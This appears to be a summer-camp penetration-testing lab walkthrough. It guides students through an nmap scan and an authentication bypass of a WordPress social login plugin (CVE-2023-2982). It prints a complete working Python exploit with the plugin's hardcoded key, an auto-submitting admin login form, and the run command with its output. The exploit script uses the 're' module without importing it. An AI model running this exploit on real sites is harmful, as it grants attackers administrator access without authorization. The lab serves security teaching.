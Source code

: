 Welcome to GenCyber Summer Camp 2025!  Together we are going to learn how to exploit a website that has a public vulnerability.  Lets see what else we can figure out about this website.  We also know that the website owner emailed us from admin@example.com which might come in handy later.

Lets take a look at: [Download the Free Nmap Security Scanner for Linux/Mac/Windows](https://nmap.org/download.html)
Go ahead and follow the instructions to download nmap onto your device from the website.  Once you have it installed you should be able to run it in your terminal with `nmap <command>`

We were given an IP address that this machine is running on: `144.80.64.114` so using that information read this article: [Port Scanning Basics | Nmap Network Scanning](https://nmap.org/book/man-port-scanning-basics.html) and see what information you can gather about this site.  Don't move onto the next section until you have completed a port scan of the website and make sure to take a screenshot of the scan for your report.

After scanning you should have discovered that ports 443 and 80 are running.  In your browser go to: http://144.80.64.114/ which is the website running on port 80 and have a look around.  After you had some time to explore you should right click and inspect the website:
![[Pasted image 20240626205001.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205001.png)

And then take a look at the applications tab and examine the cookies for the site:
![[Pasted image 20240626210027.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626210027.png)
Notice how that table is empty, showing us that we are not logged in.  Now take a look at the network tab and take note of this service that we have running on the site:
![[Pasted image 20240626213842.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626213842.png)
This login method is out of date and has known vulnerabilities associated with it which you can read about here: [CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/) Make sure to take note of this in your report as well as a screenshot of the running service.
Now that we have a possible login method lets look and see if there are any proof's of concept attacks (POCs) for the attack or public scripts that exploit this attack.  I encourage you to do your own research about this vulnerability but for the purpose of this lab I have found us a POC that we can use: [GitHub - RandomRobbieBF/CVE-2023-2982: WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) <= 7.6.4 - Authentication Bypass](https://github.com/RandomRobbieBF/CVE-2023-2982/tree/main) Typically you would have to download and modify this file yourself but to prevent errors or anything actually malicious I have uploaded the code you will need here:

create a file called `exploit.py` and put this code in it:
```python
import requests
import os
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad
import base64
import argparse
import random
import string

# Disable insecure request warnings
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Set up session with a custom User-Agent
session = requests.Session()
user_agent = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36"
session.headers.update({'User-Agent': user_agent})

passphrase = 'jMj7MEdu4wkHObiD'

def try_login(website_url, email):
    website_url = website_url.rstrip('\/') + '/'
    
    # Encrypt and encode email
    cipher = AES.new(passphrase.encode('utf-8'), AES.MODE_ECB)
    padded_email = pad(email.encode('utf-8'), AES.block_size)
    encrypted_email = cipher.encrypt(padded_email)
    encoded_email = base64.b64encode(encrypted_email).decode('utf-8')
    
    try:
        response = session.post(website_url, headers={'Content-Type': 'application/x-www-form-urlencoded'},
                                data={'option': 'moopenid', 'email': encoded_email, 'appName': 'rlHeqZw2vrPzOiWWfCParA=='},
                                allow_redirects=False, verify=False, timeout=10)
        
        if any('wordpress_logged_in' in cookie.name for cookie in session.cookies):
            print("Login Worked!")
            random_string = ''.join(random.choices(string.digits, k=4))
            with open("login.html", 'r') as file:
                file_content = file.read()
                replaced_content = file_content.replace('WEBSITE_REPLACE', website_url).replace('EMAIL_REPLACE', encoded_email)
            
            with open(f"login-{random_string}.html", 'w') as file:
                file.write(replaced_content)
            print(f"To login again, open login-{random_string}.html")
        else:
            print(f"Login Failed with {email}")
    except requests.exceptions.RequestException as e:
        print('Error occurred while logging in:', str(e))

def scan_and_extract(website_url):
    print(f"Crawling {website_url} for email addresses.")
    os.system(f"katana -kf all -u {website_url} -o /tmp/katana.txt")
    print("Using Nuclei to extract emails from links")
    os.system("nuclei -l /tmp/katana.txt -t email-extraction.yaml -nc -nm -fr -o /tmp/nuc.txt")
    
    with open("/tmp/nuc.txt", "r") as f:
        lines = f.readlines()
        emails = set()
        for line in lines:
            matches = re.findall(r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Z|a-z]{2,}\b', line)
            emails.update(matches)
    
    with open("/tmp/nuc.txt", "w") as f:
        for email in emails:
            f.write(email + "\n")
    
    for email in emails:
        try_login(website_url, email)

def main():
    parser = argparse.ArgumentParser(description='CVE-2023-2982 Exploit')
    parser.add_argument('-w', '--website_url', required=True, help='Website URL')
    parser.add_argument('-e', '--email', required=False, help='Email')
    args = parser.parse_args()
    
    website_url = args.website_url
    email = args.email
    
    if email:
        try_login(website_url, email)
    else:
        scan_and_extract(website_url)

if __name__ == "__main__":
    main()

```

Create another file called `login.html` and put this code inside of it:
```html
<html>
<head>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.11.1/jquery.js" integrity="sha512-eKwZNCvuOhxcqGTXAudC9WH2KUKf8Id1cqNoMc6DKZuN8upL22xj3ZkJdckyDd3Gjsi1QHKZ3ug0XQHQkGRNJg==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>
    <script type="text/javascript">
        $(document).ready(function () {
            window.document.forms[0].submit();
        });
    </script>
</head>
<body>

<p style="font: calibri;">Please wait...</p>
<form action="WEBSITE_REPLACE/?option=moopenid" method="post" id="oauth-form">
    <input type="hidden" name="access_token" value="null"/>
    <input type="hidden" name="token_type" value="null"/>

    <input type="hidden" name="profileUrl" value="null"/>

    <input type="hidden" name="firstName" value="null"/>

    <input type="hidden" name="lastName" value="null"/>

    <input type="hidden" name="appName" value="5mOYjGe8QSZBuYFqNSAS4A=="/>

    <input type="hidden" name="profilePic" value="null"/>

    <input type="hidden" name="userid" value="null"/>

    <input type="hidden" name="email" value="EMAIL_REPLACE"/>

    <input type="hidden" name="username" value="null"/>

</form>
</body>
</html>

```

Before you can run this code you will have to make sure you have python installed on your device which can be found here: [Download Python | Python.org](https://www.python.org/downloads/)

After that you should put these into a txt file called `requirements.txt`:
```
requests 
pycryptodome
```
and then run the command: `pip3 install -r requirements.txt`

Make sure both files are in the same directory as you and run the following command: `python3 exploit.py -w http://144.80.64.114/ -e admin@example.com` Notice how we stole the website owners email from the initial email he sent us.

You should get terminal output that looks like this:
```
>> python3 exploit.py -w http://144.80.64.114/ -e admin@example.com
Login Worked!
To login again, open login-4358.html
```

Now there should be a new .html file in the same directory as your script.  Open it up and it should take you to the website (if for some reason it takes you to localhost/127.0.0.1 just keep reopening the new html file until you return to the blog site) 

Once you are on the new site you should now see a menu open on the left which should greet you as admin meaning you have successfully logged in as an admin user on the site.  To further verify this you can go back into the cookies tab and confirm you are logged in as admin:
![[Pasted image 20240626205943.png]](https://raw.githubusercontent.com/alphapuggle/GenCyber2024/main/Pasted%20image%2020240626205943.png)
Make sure to take a screenshot of this for your report.  Now that you have completed your attack take some time to do some research and write a mini report that you could give to your friend or client outlining this vulnerability.  Your report should outline what vulnerability was found, what it impacts, and how to mitigate it.  Make sure to pull information from some resources we have already seen as well, I'll list these two to start:
[CVE-2023-2982 : The WordPress Social Login and Register (Discord, Google, Twitter, LinkedIn) plugin for WordPress is vulnerable to authe (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2023-2982/)
[OWASP Top Ten | OWASP Foundation](https://owasp.org/www-project-top-ten/)
